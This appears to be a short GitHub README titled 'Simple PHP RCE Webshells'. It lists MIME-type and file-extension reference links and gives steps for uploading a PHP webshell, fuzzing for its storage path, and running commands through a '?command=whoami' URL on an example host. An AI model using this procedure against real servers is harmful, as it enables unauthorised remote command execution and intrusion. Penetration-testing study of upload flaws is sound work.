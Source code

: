 <h1>Simple PHP RCE Webshells</h1>

Resources: 
Mime Types: https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types

File Extensions: https://fileinfo.com/filetypes/common

File Extensions v2: https://www.geeksforgeeks.org/list-of-file-formats/

```
#EXECUTION
1. Upload
2. Backtrack and find out where the file is stored (you may have to fuzz for it)
3. If you have found it, for example "httpx://GR1FF1N.com/files/avatars/images/webshell.php"
4. To execute you need to run the following URL: "httpx://GR1FF1N.com/files/avatars/images/webshell.php?command=whoami"
```
